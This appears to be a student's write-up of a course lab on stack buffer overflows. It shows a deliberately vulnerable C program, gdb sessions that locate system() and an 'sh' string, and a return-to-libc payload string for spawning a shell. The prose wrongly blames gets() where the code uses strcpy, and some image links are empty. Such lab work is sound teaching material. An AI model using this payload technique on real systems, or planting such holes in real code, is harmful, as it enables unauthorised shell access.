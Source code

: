 
#Task 1
###Task 1.1 Vulnerable Program (5 points)
The initial task was to write a C/C++ program that contains a stack buffer overflow vulnerability. ```overflowable.c``` detailed below contains a vulnerability since it utilizes the vulnerable and depreceated ```gets()``` command.  This command does not check the size of the input against the size of what the buffer is.
######overflowable.c

```c
#include <stdio.h>
#include <strings.h>

int main(int argc, char *argv[]){
    char buffer[8];
    strcpy(buffer,argv[1]);
};
```
#####Compile Instructions
```sh
$ gcc overflowable.c -o overflowable -fno-stack-protector
```

####Task 1.2 Stack Layout (25 points)
Note: the stack layout should contain the following contents:
- Stack layout (5 points)
- High and low address of stack, stack grows direction (5 points)
- Size of each part on the stack (5 points)
- Content of each part of the stack (5 points)
- Overflowed area of the stack (5 points)

#####Prior to overflow:

![http://imgur.com/a/JoZV8](http://i.imgur.com/BxQlUpF.jpg)

#####After overflow: (to show overflowed area of the stack)

![http://imgur.com/a/JoZV8](http://i.imgur.com/h3S1iXe.jpg)

###Task 1.3 Exploiting Explanation (10 points)

To exploit the stack we must first figure out how to cause the program to crash.  It is easy to do this by inputing the following test procedures:

![crashing the program]()

After causing the program to crash, you must then try to find what the proper input to completely overide the return address.  I accomplished this by adding ```0``` onto the tail of my input.  The result from running the program should be something like ```Program received signal SIGSEGV, Segmentation fault. 0x30303030 in ?? ()```.  The reason that we are looking for ```0x30303030``` is the in ```ASCII``` the hex for ```0``` is ```30``` and we are looking for all 4.  The Steps below show how to accomplish this:

![crafting your input]()

To exploit we want the system to open a shell.  To do this we must develop shell code that will place the code we are trying to execute into the buffer we are overflowing and overwrite the return address so it points back into the buffer.  

To do this we must locate where the ```system``` call resides on our machine.  The following steps were outlined on a Piazza thread [here](https://piazza.com/class/ij905n686w44wb?cid=69)

```
(gdb) b main
Breakpoint 1 at 0x8048420
(gdb) r
Starting program: /home/ubuntu/CS6035/project1/overflowable 

Breakpoint 1, 0x08048420 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e56190 <__libc_system>
(gdb) 
```

When we issue the ```(gdb) print system``` command when the program is running we are given ```0xb7e56190``` as the location for the system command.  

To locate the location of a ```sh``` string to inject we search for ```sh``` in memory.  We dump the files that have symbols from out program and do a search across their memory by ```(gdb) find addr1,addr2,"sh"```

```
(gdb) info files
Symbols from "/home/ubuntu/CS6035/project1/overflowable".
Unix child process:
	Using the running image of child process 2771.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/ubuntu/CS6035/project1/overflowable', file type elf32-i386.
	Entry point: 0x8048320
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804821c is .dynsym
	0x0804821c - 0x08048268 is .dynstr
	0x08048268 - 0x08048272 is .gnu.version
	0x08048274 - 0x08048294 is .gnu.version_r
	0x08048294 - 0x0804829c is .rel.dyn
	0x0804829c - 0x080482b4 is .rel.plt
	0x080482b4 - 0x080482d7 is .init
	0x080482e0 - 0x08048320 is .plt
	0x08048320 - 0x080484b2 is .text
	0x080484b4 - 0x080484c8 is .fini
	0x080484c8 - 0x080484d0 is .rodata
	0x080484d0 - 0x080484fc is .eh_frame_hdr
	0x080484fc - 0x080485ac is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array
	0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a018 is .got.plt
	0x0804a018 - 0x0804a020 is .data
	0x0804a020 - 0x0804a024 is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so.2
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so.2
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so.2
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so.2
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so.2
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so.2
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so.2
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so.2
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so.2
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so.2
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so.2
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so.2
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so.2
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so.2
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so.2
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so.2
	0xb7ffefec - 0xb7ffeff8 is .got in /lib/ld-linux.so.2
	0xb7fff000 - 0xb7fff024 is .got.plt in /lib/ld-linux.so.2
	0xb7fff040 - 0xb7fff878 is .data in /lib/ld-linux.so.2
---Type <return> to continue, or q <return> to quit---
	0xb7fff878 - 0xb7fff938 is .bss in /lib/ld-linux.so.2
	0xb7e16174 - 0xb7e16198 is .note.gnu.build-id in /lib/i386-linux-gnu/libc.so.6
	0xb7e16198 - 0xb7e161b8 is .note.ABI-tag in /lib/i386-linux-gnu/libc.so.6
	0xb7e161b8 - 0xb7e19ec8 is .gnu.hash in /lib/i386-linux-gnu/libc.so.6
	0xb7e19ec8 - 0xb7e23438 is .dynsym in /lib/i386-linux-gnu/libc.so.6
	0xb7e23438 - 0xb7e2915e is .dynstr in /lib/i386-linux-gnu/libc.so.6
	0xb7e2915e - 0xb7e2a40c is .gnu.version in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a40c - 0xb7e2a898 is .gnu.version_d in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a898 - 0xb7e2a8d8 is .gnu.version_r in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a8d8 - 0xb7e2d2e8 is .rel.dyn in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d2e8 - 0xb7e2d348 is .rel.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d350 - 0xb7e2d420 is .plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d420 - 0xb7f5eb6e is .text in /lib/i386-linux-gnu/libc.so.6
	0xb7f5eb70 - 0xb7f5fafb is __libc_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fb00 - 0xb7f5fcfe is __libc_thread_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fd00 - 0xb7f81754 is .rodata in /lib/i386-linux-gnu/libc.so.6
	0xb7f81754 - 0xb7f81767 is .interp in /lib/i386-linux-gnu/libc.so.6
	0xb7f81768 - 0xb7f88c0c is .eh_frame_hdr in /lib/i386-linux-gnu/libc.so.6
	0xb7f88c0c - 0xb7fb9f68 is .eh_frame in /lib/i386-linux-gnu/libc.so.6
	0xb7fb9f68 - 0xb7fba3c6 is .gcc_except_table in /lib/i386-linux-gnu/libc.so.6
	0xb7fba3c8 - 0xb7fbd928 is .hash in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1d4 - 0xb7fbe1dc is .tdata in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe220 is .tbss in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe1e8 is .init_array in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1e8 - 0xb7fbe260 is __libc_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe260 - 0xb7fbe264 is __libc_atexit in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe264 - 0xb7fbe274 is __libc_thread_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe280 - 0xb7fbfda8 is .data.rel.ro in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfda8 - 0xb7fbfe98 is .dynamic in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfe98 - 0xb7fbfff4 is .got in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0000 - 0xb7fc003c is .got.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0040 - 0xb7fc0ebc is .data in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0ec0 - 0xb7fc3a7c is .bss in /lib/i386-linux-gnu/libc.so.6
(gdb) Quit
(gdb) find 0x08048154,0xb7fc3a7c,'sh'
Invalid character constant.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde7f0,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde7f0, 0xb7fff938, "sh"
0xb7ff7e5c <__PRETTY_FUNCTION__.9595+12>
0xb7ffde11
0xb7ffee11 <_rtld_global_ro+241>
3 patterns found.
```

3 patterns were found so we use the ```gdb x/e`` command to investigate those memory locations to see what is contained

```
(gdb) x/s 0xb7ffde11
0xb7ffde11:	"sh"
```

The ```sh``` has been found!

So our two important addresses are 

- ```sh``` at ```0xb7ffde11```
- ```system``` at ```0xb7e56190```

To craft the shellcode, add these commands in place of our ```0000``` that were on the original overflow string so it looks as follows:


```12345678123456781234``` + the shellcode for system() + ```\xb7\xe5\x61\x90``` + ```a dumb return address``` + the location for ```sh``` ```\xb7\xff\xde\x11```

But do to the way these are pushed onto the stack, we need to reverse them and it becomes:

```12345678123456781234``` + the shellcode for system() +```\x90\x61\xe5\xb7``` + ```a dumb return address``` + the location for ```sh``` ```\x11\xde\xff\xb7``` 


or in total ```12345678123456781234\x90\x61\xe5\xb7RETA\x11\xde\xff\xb7```

# Task 2:

###Task 2.1 Buffer overflow detection data craft and overflow proof in GDB (10 points)
###Task 2.2. Locate system() address in GDB (10 points)
###Task 2.3. Locate /bin/sh address in GDB(10 points)
###Task 2.4. Correct exploit payload in data.txt and being able to open the shell in terminal(30
points)

